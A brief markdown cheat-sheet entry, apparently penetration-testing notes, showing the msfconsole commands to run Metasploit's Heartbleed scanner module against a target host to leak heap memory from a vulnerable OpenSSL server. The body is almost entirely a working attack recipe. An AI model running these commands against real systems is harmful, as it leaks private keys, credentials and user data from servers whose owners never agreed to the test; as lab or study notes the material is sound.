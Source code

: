 # Metasploit

## Metasploit console

### Heartbleed

Get data from the heap memory of a vulnerable machine (accepting and processing new SSL connections). Data depends largely on the timing of when the exploit is performed. Not getting something highly valuable does not equate to a failed exploit.

```
sudo msfdb start
msfconsole
search heartbleed
use auxiliary/scanner/ssl/openssl_heartbleed
# list module options
show options
# set options
set VERBOSE true
set RHOSTS 10.0.0.101
run
```
